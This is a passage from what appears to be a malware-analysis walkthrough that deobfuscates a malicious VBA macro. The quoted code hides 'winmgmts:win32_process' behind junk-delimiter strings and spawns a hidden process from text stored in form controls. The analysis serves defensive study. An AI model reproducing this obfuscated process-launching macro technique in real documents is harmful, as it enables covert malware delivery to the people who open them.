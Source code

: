 ```vba
	giakfeiw = deulsaocthuul + gooykadheoj + roubhaol.paerwagyouqumeid.ControlTipText + deaknaugthein
	queegthaen = giakfeiw + roubhaol.joefwoefcheaw

	Set deavjoajsear = luumlaud(queegthaen)
	
	xve = Array _
		("1234444123", tiajriokchaoy. _
		Create(geulgelquuuj, kaenhaig, deavjoajsear), "9938723")
End Function

Function juuvzouchmiopxeox(yiajthoavheiw)
	geutyoeytiestheug = yiajthoavheiw
	feaxgeip = Split(geutyoeytiestheug, "2342772g3&*gs7712ffvs626fq")

	jaquhoiqu = csqw + Join(feaxgeip, eihnx)
	juuvzouchmiopxeox = jaquhoiqu
End Function

Function geulgelquuuj()
	sjiqw = roubhaol.gaoddaicsauktheb.Pages(10 / 10).ControlTipText
	geulgelquuuj = juuvzouchmiopxeox(sjiqw)
End Function

Function luumlaud(zeolkaepxoag)
	Set luumlaud = CreateObject(zeolkaepxoag)
	Dim vPu As String
	vPu = Replace$("BenqV1�igVwifwdQq", "BenqV1�i", "on5�")
		luumlaud _
		. _
		showwindow = (mujgoiy + jioyseertioch) + (neivberziok + xuajroegquoudcaij)
End Function
```
As you can see above, the code is shorter. It's also a little easier to understand. Only a little though, we still need to step through the code carefully to have a better grasp of what it is doing.

Let's take on the next line:

```vba
haothkoebtheil = "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqw2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqin2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqm2342772g3&*gs7712ffvs626fqgm2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqt2342772g3&*gs7712ffvs626fq" + gooykadheoj + "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fq:w2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqin2342772g3&*gs7712ffvs626fq322342772g3&*gs7712ffvs626fq_2342772g3&*gs7712ffvs626fq" + roubhaol.joefwoefcheaw + "2342772g3&*gs7712ffvs626fqr2342772g3&*gs7712ffvs626fqo2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqc2342772g3&*gs7712ffvs626fqes2342772g3&*gs7712ffvs626fqs2342772g3&*gs7712ffvs626fq"
```

If we look at the string carefully we would notice that a set of strings is concatenated with two variables. These variables are `gooykadheoj` and `roubhaol.joefwoefcheaw`. We already know the value of `gooykadheoj`. So what's the value of `roubhaol.joefwoefcheaw`?
